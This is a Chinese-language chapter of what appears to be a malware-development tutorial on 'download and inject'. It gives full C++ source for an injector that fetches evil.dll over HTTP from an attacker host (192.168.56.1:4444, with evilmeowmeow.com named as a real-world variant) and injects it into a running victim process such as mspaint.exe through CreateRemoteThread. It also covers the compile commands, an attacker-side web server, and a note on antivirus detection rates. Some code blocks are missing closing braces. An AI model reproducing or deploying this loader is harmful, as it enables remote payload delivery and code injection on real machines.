










\newpage
\subsection{恶意软件开发技巧：下载并注入逻辑（C++ 示例）}

### 下载并执行

{width="80%"}

下载并执行，或者在我们的场景中是下载并注入，是一个有趣的技巧。

它的设计目的是从一个 URL（强调是 HTTP）下载载荷或恶意 DLL，然后执行或注入它。

下载/执行（或下载/注入）方式的好处是，它可以用于那些过滤掉除 HTTP 之外所有流量的网络之后。

### 实战示例

首先，我们来考虑经典的 DLL 注入恶意软件。在最简单的情况下它看起来像这样：

```cpp
/*
* classic DLL injection example
* author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  // parse process pid
  if ( atoi(argv[1]) == 0) {
  printf("PID not found :( exiting...\n");
  return -1;
  }
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;

```

这里我想为下载我们的 `evil.dll` 添加一些简单的逻辑。在最简单的情况下它看起来像这样：

```cpp
// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0",
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
  buffer = new char[dwFileSize + 1];
  ZeroMemory(buffer, sizeof(buffer));
  InternetReadFile(hHttpFile, (LPVOID)buffer, 
  dwFileSize, &dwBytesRead);
  WriteFile(hFile, &buffer[0], dwBytesRead, 
  &dwBytesWritten, NULL);
  delete[] buffer;
  buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;

```

这个函数从攻击者的机器下载 `evil.dll`。

然后，我们在 `main()` 函数中运行这段代码。我们注入器的完整源代码是：

```cpp
/*
evil_inj.cpp
classic DLL injection example
author: @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <wininet.h>
#pragma comment (lib, "wininet.lib")

char evilDLL[] = "C:\\Temp\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// download evil.dll from url
char* getEvil() {
  HINTERNET hSession = InternetOpen((LPCSTR)"Mozilla/5.0", 
  INTERNET_OPEN_TYPE_DIRECT, NULL, NULL, 0);
  HINTERNET hHttpFile = InternetOpenUrl(hSession, 
  (LPCSTR)"http://192.168.56.1:4444/evil.dll", 
  0, 0, 0, 0);
  DWORD dwFileSize = 1024;
  char* buffer = new char[dwFileSize + 1];
  DWORD dwBytesRead;
  DWORD dwBytesWritten;
  HANDLE hFile = CreateFile("C:\\Temp\\evil.dll", 
  GENERIC_READ|GENERIC_WRITE, FILE_SHARE_READ, 
  NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  do {
  buffer = new char[dwFileSize + 1];
  ZeroMemory(buffer, sizeof(buffer));
  InternetReadFile(hHttpFile, (LPVOID)buffer, 
  dwFileSize, &dwBytesRead);
  WriteFile(hFile, &buffer[0], dwBytesRead, 
  &dwBytesWritten, NULL);
  delete[] buffer;
  buffer = NULL;
  } while (dwBytesRead);

  CloseHandle(hFile);
  InternetCloseHandle(hHttpFile);
  InternetCloseHandle(hSession);
  return buffer;

// classic DLL injection logic
int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  LPVOID rb; // remote buffer

  // handle to kernel32 and pass it to GetProcAddress
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");
  char* evil = getEvil();

  // parse process ID
  if ( atoi(argv[1]) == 0) {
  printf("PID not found :( exiting...\n");
  return -1;
  }
  printf("PID: %i\n", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
  DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, evilLen, 
  (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, 
  (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);
  CloseHandle(ph);
  return 0;

```

和往常一样，为了简单起见，我们创建一个只弹出消息框的 DLL：

```cpp
/*
evil.cpp
simple DLL for DLL inject to process
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
  MessageBox(
  NULL,
  "Meow from evil.dll!",
  "=^..^=",
  MB_OK
  );
  break;
  case DLL_PROCESS_DETACH:
  break;
  case DLL_THREAD_ATTACH:
  break;
  case DLL_THREAD_DETACH:
  break;
  }
  return TRUE;

```

那么，在理解了注入器的完整代码之后，我们终于可以测试它了。

### 演示

首先，编译 DLL：

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

{width="80%"}

然后，编译注入器：

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-lwininet -I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}

在攻击者的机器上准备一个简单的 web 服务器：

```bash
python3 -m http.server 4444
```

{width="80%"}

确保受害机器上存在指定的路径（`C:\Temp`）：

{width="80%"}

最后，运行受害进程 `mspaint.exe` 并运行注入器 `hack.exe`：

```cmd
.\hack.exe <mspaint.exe's PID>
```

{width="80%"}

{width="80%"}

{width="80%"}

{width="80%"}

我们可以看到一切都完美工作了 :)

我们把它上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/00e3254cdf384d5c1e15e217e89df9f78b73db7a2b0d2b7f5441c6d8be804961/detection>

所以 69 个 AV 引擎中有 6 个把我们的文件检测为恶意。

我希望这一节能让蓝队意识到这项有趣的技术，同时为红队的武器库增添一件武器。

[InternetOpen](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopena)  
[InternetOpenUrl](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw)  
[InternetReadFile](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile)  
[InternetCloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetclosehandle)  
[WriteFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-writefile)  
[CreateFile](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea)  
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)  
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)  
[CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)  
[OpenProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess)  
[GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress)  
[LoadLibraryA](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-loadlibrarya)

[classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)  
[source code in Github](https://github.com/cocomelonc/2022-04-13-malware-injection-19)

这篇文章是我自我研究真实世界恶意软件中一个有趣技巧的结果。

只要该代理不需要认证信息，它甚至可以通过预配置的代理工作。

如你所见，这相当简单。

在原书的例子里，攻击者的机器是 192.168.56.1:4444。

但在真实场景中，这个地址可能看起来像 evilmeowmeow.com:80 这样。

下载的文件被保存到 `C:\Temp\evil.dll`。
